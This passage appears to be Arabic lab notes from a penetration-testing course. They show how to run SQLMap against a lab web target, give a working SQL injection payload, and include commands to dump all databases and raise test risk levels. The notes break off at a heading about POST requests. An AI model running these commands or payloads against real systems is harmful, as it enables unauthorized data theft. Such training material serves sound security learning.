 ## 2- استخدام أداة SQLMap

- **الأمر المستخدم**:
```bash
sqlmap -u "http://94.237.49.212:52229/case1.php?id=*"
```
**طلبات الأداة**:

- **Yes** عند سؤال `Do you want to process it?`  
  - (الأداة عايزة تتأكد إنك عايز تختبر الـ Parameter.)

- **Yes** عند سؤال `Do you want to skip test payloads specific for other DBMSes?`  
  - (الأداة بتسألك لو عايز تتجنب اختبارات لغير MySQL.)

- **Yes** عند سؤال `Do you want to include all tests for 'MySQL'?`  
  - (الأداة عايزة تأكيد لاختبار كل الأنواع الممكنة لـ MySQL.)



- **تحذيرات (Warnings)**:
![image](https://github.com/user-attachments/assets/b38f94d1-e375-4b5a-9b06-7a3085fa0df3)
![image](https://github.com/user-attachments/assets/884fd12a-812b-4a2e-89e1-8b42ad9a5bc5)

  - `URI parameter '#1*' is vulnerable.`
- **الـ Payload المستخدم**:
```
http://94.237.49.212:52229/case1.php?id=-7973 OR 4567=4567#
```
---
## استخراج جميع البيانات باستخدام SQLMap

- **الأمر المستخدم**:
```
sqlmap -u "http://94.237.49.212:52229/case1.php?id=*" --dump-all
```
### - خلي باللك من الامر ده لان ممكن الشركة تمسكك
---
## رفع مستوى المخاطر باستخدام SQLMap

- **الأمر المستخدم**:
```
sqlmap -u "http://94.237.49.212:52229/case1.php?id=*" --risk 3 --level 5
---
```
# التعامل مع طلبات POST بدلاً من GET

- مش كل الثغرات بتكون في الطلبات من نوع **GET**. في بعض الحالات، الثغرة بتكون في الطلبات من نوع **POST**.

## استخدام أداة Arjun مع POST
